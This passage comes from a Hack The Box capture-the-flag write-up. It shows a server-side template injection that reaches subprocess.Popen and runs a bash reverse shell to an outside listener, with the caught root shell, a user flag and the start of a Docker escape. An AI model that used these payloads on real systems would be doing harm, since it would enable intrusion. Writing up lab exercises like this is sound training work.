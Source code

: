 I then wanted to see what classes were available within the application that I could potentially abuse.

```python
{{''.__class__.mro()[1].__subclasses__()}}
```

This gave me a large list which I sorted through and found `subprocess.Popen` at index 217. The `subprocess` module allows someone to issue arbirtrary commands, and the `Popen` command allows you to open a pipe and communicate through. This combination seemed like a potential way to initiate a reverse shell to get on the host.

```python
{{ ''.__class__.__mro__[1].__subclasses__()[217] }}

<class 'subprocess.Popen'> 
```

Then, using https://www.revshells.com/ I constructed the below command while having a listener set up on port 80 on my host to catch the call-back.

```python
{{ ''.__class__.__mro__[1].__subclasses__()[217]('/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.104/80 0>&1"',shell=True,stdout=-1,stderr=-1) }}
```

I get the following output in my listener:

```bash
sudo nc -lnvp 80
Listening on 0.0.0.0 80
Connection received on 10.129.230.199 60590
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3a453ab39d3d:/backend# 
```

## User.txt - Docker Container Escape

I immediately navigated to `/home` and saw the `augustus` user with `user.txt` in their home directory.

```bash
root@3a453ab39d3d:/home/augustus# ls
user.txt
```

`user.txt: HTB{7h4T_w45_Tr1cKy_1_D4r3_54y}`

I noticed that I was the `root` user, but it didn't seem like I was in a normal FS. After looking around, I found this in the `/` directory:

```bash
root@3a453ab39d3d:/# ls -la
ls -la
total 88
drwxr-xr-x   1 root root 4096 Nov  5 15:23 .
drwxr-xr-x   1 root root 4096 Nov  5 15:23 ..
-rwxr-xr-x   1 root root    0 Nov  5 15:23 .dockerenv
```
